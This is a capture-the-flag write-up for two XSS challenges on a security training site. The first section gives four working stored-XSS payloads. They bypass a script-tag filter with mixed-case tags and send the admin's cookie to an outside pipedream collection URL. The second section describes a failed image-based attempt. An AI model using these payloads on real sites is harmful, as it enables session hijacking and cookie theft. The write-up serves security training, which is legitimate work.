 # XSS challenges

## XSS1 [https://xss1.secu-web.blackfoot.dev/]

### Description
Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to execute malicious scripts in a web browser of another user. This can allow the attacker to steal the session cookies of the user, perform other actions on behalf of the user, or redirect the user to a malicious site.

Usually XSS vulnerabilities consist in executing code on the machine of another user and potentially a user who has higher rights.
This means we will attempt to execute code on the machine of the admin of the website, try to hijack their session and get their cookie.

The site is a messaging site similar to whatsapp or telegram, seems we can pick any contact and send a message to them.
It seems the admin's paranoia of checking messages every minute gives us a window of opportunity to send stored xss.

### Solution
The user field input is not being sanitized correctly. We can inject a script tag by changing it to lower or uppercase naming, and proceed to execute javascript code. We can then send a message to the admin and wait for them to check their messages. The script will be executed on message page load and we will get the admin flag to a predetermined exfil url. One of the immediate problems is that the cookie storage is probably set to `Secure`, meaning it is not accessible by javascript. We can try to bypass this by accessing some internal localhost endpoint on admin's machine, and then hopefully get the cookie.
```
<sCRIPt>fetch("/messages/635",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
<sCRIPt>fetch("/admin",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
<sCRIPt>fetch("http://whatsup:8000/admin",{method:"GET"}).then((e=>e.text())).then((e=> {fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
<sCRIPt>fetch("/messages/635",{method:"GET"}).then((e=>e.text())).then((e=>{fetch("//eo2r70memzipors.m.pipedream.net",{method:"POST",body:document.cookie})}));</sCRiPt>
```
With the following combination of messages we can force the admin to read our messages, which then triggers the XSS, The cookie is then sent to our exfil url. We can then decode the cookie and get the flag.


## XSS2 [https://xss2.secu-web.blackfoot.dev/]

### Description

Same as XSS1, but seems that admin has taken more sanitization measures and we can't inject script tags anymore. It seems that we could send image urls and have them rendered on the page. Image-based XSS looks like js code encoded in a .bmp or .png file. We can then send the image to the admin and wait for them to check their messages.

### Solution

We couldn't find a consistent way of producing a fake image that is actually rendered on the message load. We tried a couple of forms, shown below:

In conclusion, I think we got pretty close to solving it without actually getting a flag. Things I would have tried would include trying to discover more ways of injecting code into an image. I would also have tried to find a way to bypass the sanitization of the image url, maybe by using a different protocol or something.


#### Screenshots

#### Resources
 - https://www.pipedream.com/
 - https://github.com/jklmnn/imagejs